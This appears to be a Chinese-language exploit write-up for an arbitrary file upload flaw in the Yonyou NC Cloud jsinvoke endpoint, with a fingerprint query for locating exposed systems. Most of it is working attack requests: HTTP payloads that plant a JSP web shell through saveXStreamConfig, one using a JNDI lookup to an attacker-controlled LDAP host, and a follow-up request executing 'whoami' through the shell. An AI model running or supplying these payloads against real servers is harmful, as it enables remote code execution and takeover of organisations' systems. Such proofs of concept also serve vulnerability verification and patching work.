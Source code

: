 # 用友 NC Cloud jsinvoke 任意文件上传漏洞

## 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

## 漏洞影响

<a-checkbox checked>用友 NC Cloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-NC-Cloud"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1677729078033-1536313c-bfb8-4134-ac84-ddad2b011207-20230809133642723.png)

验证POC

```plain
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1677729129558-fd90f34f-9bb9-44ce-b779-e7c17578b4a0.png)

```plain
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1677729209203-afb4acf2-bd48-44fb-af97-aa70c9bcbc2a.png)